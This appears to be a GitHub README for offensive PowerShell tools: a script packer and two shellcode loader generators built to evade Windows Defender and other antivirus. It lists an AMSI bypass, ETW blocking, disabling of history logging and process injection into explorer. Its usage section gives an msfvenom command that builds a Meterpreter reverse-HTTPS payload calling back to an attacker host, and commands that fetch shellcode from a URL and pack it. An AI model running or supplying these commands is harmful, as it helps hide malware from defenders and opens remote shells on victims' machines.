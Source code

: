 --------------------------------------
### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' is a simple PowerShell script packer that aims to bypass AV solutions such as Windows Defender.

> Features
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  
> Usage
  - Import-Module ./Invoke-PoSH-Packer.ps1
  - Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
  Or  
  - Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1

--------------------------------------
### Invoke-PoSH-ShellCodeLoader.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader' is shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into the current process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of the current process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o MeterpreterShellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader -FileUrl https://URL/shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader -FilePath C:\path\shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into a target process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o MeterpreterShellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1
  Or
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1

--------------------------------------
License: GNU General Public License v3.0
